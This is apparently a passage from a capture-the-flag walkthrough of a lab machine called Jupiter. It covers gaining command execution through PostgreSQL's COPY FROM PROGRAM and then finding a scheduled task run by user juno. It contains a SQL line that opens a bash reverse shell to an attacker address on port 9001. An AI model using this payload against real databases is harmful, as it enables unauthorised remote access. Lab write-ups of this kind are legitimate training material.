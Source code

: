 <figure><img src="Images/Jupiter/kiosk_burpsuite_postgres_rce_id.png" alt=""><figcaption></figcaption></figure>

### Reverse Shell

We can use this to get a reverse shell on the machine. Following the same steps above we just switch out the `id` command for one that calls back to our attack host. We have a netcat listener on port `9001` and we get a shell as the `postgres` user.

#### SQL Command:

```sql
copy toasty_exec from program 'bash -c \"bash -i >& /dev/tcp/10.10.14.226/9001 0>&1\"';
```

#### Execution and Reverse Shell:

<figure><img src="Images/Jupiter/kiosk_burpsuite_revshell.png" alt=""><figcaption></figcaption></figure>

### Pspy

There was a lot of enumeration here I won't cover. Searching for files/hidden items/permissions, trying to do a lot of manual checking. I did end up running `pspy` to watch processes. I won’t cover the steps of moving the pspy file over from my attack machine to the target. There is a job running as uid 1000 or `juno`.

<figure><img src="Images/Jupiter/pspy_juno_shadowsim.png" alt=""><figcaption></figcaption></figure>

### Shadow Simulation

I didn't know what shadow was but it appears to be a [network simulation tool](https://shadow.github.io/docs/guide/design\_2x.html). It looks like every few minutes or so this is running as `juno` and calling the `shadow` bin and running against the `network-simulation.yml` file in the `/dev/shm/` directory. A quick look shows we do have read/write permissions over the `/dev/shm/network-simulation.yml` file.
